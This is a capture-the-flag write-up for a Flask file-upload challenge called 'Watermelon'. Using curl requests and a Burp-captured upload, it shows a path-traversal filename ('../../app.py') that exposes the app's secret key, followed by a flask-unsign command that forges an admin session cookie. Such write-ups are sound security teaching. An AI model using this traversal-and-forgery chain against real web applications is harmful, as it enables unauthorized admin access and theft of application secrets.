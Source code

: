 ```yaml
---
title: Watermelon
date: 2024-09-03
author: zacian
tags:
  - Web
draft: false
---
```


## Description

All love for Watermelons 🍉🍉🍉

Note: The code provided is without jailing, please note that when writing exploits.

`By SAFCSP`

----

Note : While making this writeup, the challenge infrastucture was already closed, so i had to setup the application manually 

## Intuition

From then given attachment or source code files we can find `app.py` which seems to only hold custom api functions or endpoints, other than that there is no templating engine used nor does any HTML or CSS for frontend interaction

So whatever we have to do, is by sending request to backed either using cURL, Burpsuite or Postman. In the following i choosed cURL and Brupsuite

## Solution

First i registerd a user. I did this using Brupsuite but i will show it using cURL request 

```
$ curl -X POST http://127.0.0.1:5000/register \
     -H "Content-Type: application/json" \
     -d '{"username": "user", "password": "password"}'

{"Message":"User registered successfully"}
```

Next let's login and get the session cookie

```
$ curl -v -X POST http://127.0.0.1:5000/login \
     -H "Content-Type: application/json" \
     -d '{"username": "user", "password": "password"}'

.....
< Set-Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk; HttpOnly; Path=/
< Connection: close
< 
{"Message":"Login successful"}
```

Now let's check what the profiles endpoint shows

```
$ curl http://127.0.0.1:5000/profile \ 
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

{"user_id":2,"username":"user"}
```

so we have a profile id of 2, so it's a guess that the user_id of admin should be 1. With that in mind let's move forward to the main functionality of the API, that is uploading files

But before we visit the `upload` endpoint let's first check the `files` endpoint

```
$ curl http://127.0.0.1:5000/files \  
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

{"files":[]}
```

As we can see, no files is being listed. So now upload a file

First let's create a file `echo HackThePlant > hack.txt`, then let's try to upload it

```
$ curl -X POST http://127.0.0.1:5000/upload \
    -b $'session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;' \                                                  
    -F $'file=@hack.txt'

{"Message":"File uploaded successfully","file_path":"files/2/hack.txt"}
```

After it's uploded successfully let's check our files one more time

```
$ curl http://127.0.0.1:5000/files \
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;" | jq
```

as you can see it's the same command from before but i used jq to format the json data, which gives us the followig output

```json
{
  "files": [
    {
      "filename": "hello.txt",
      "filepath": "files/2/hello.txt",
      "id": 1,
      "uploaded_at": "Tue, 03 Sep 2024 15:31:53 GMT"
    }
  ]
}
```

so in order to read the file we just need to provide the file id

```
$ curl http://127.0.0.1:5000/file/1 \
     -H "Content-Type: application/json" \
     -H "Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;"

HackThePlant
```

So how can we use the available feature in-order to read the flag or gain admin or read admin files, well this is possible by simply doing a path traversal

Say for example, the initial `file` directory is in the `app` directory and inside that directory other directories are created that are named with numbers. The main file that is `app.py` is in `app` directory. So we can go back two directories inorder to read the actual `app.py` file

But the question is what would that gives us ? and the answer is `SECRET_KEY`

For this part i used Burpsuite cause i am not that pro in cURL. First i captured the previous upload request using `--proxy http://127.0.0.1:8080`. Upon captureing we can see a POST with the following request and headers

```
POST /upload HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: curl/8.8.0
Accept: */*
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6InVzZXIifQ.ZtcpMQ.AU0O3djqZQnjygxxk40pp1phmHk;
Content-Length: 210
Content-Type: multipart/form-data; boundary=------------------------WuH47fGlYwCHT6cJrXYTOG
Connection: close

--------------------------WuH47fGlYwCHT6cJrXYTOG
Content-Disposition: form-data; name="file"; filename="hack.txt"
Content-Type: text/plain

HackThePlant

--------------------------WuH47fGlYwCHT6cJrXYTOG--
```

now all we have to do is change the filename to something like `filename="../../app.py"`, and on sending the request we don't get any error

```json
{"Message":"File uploaded successfully","file_path":"files/2/../../app.py"}
```

Before trying to read the file we can visit the `files` endpoint to check the id number of the file we uploaded, it's not necessary if you know but since i tested it with quite a number of files, i had to check it

Anyways it was 4 and when i checked `/file/4`, i got the source code available in `app.py`, first thing i checked was at the very end of the code, in the admin section, which holds or returns the flag and i got the same place holder flag that was provided in the public source code

What we got was rather different. In the public code, the secret key is generated by `secrets.token_hex(20)` function but in the original challenge we got the actually hardcoded key, which we then used to sign our own cookie using `flask-unsign`

```
flask-unsign --sign --cookie "{'user_id': 1, 'username': 'admin'}" --secret '8e55dcf0df3722bd29b6c8b4f1d1f934'
```

The secret used in the above was the original key used when the challenge was live, after getting the cookie we can read the flag by simply visiting `/admin` endpoint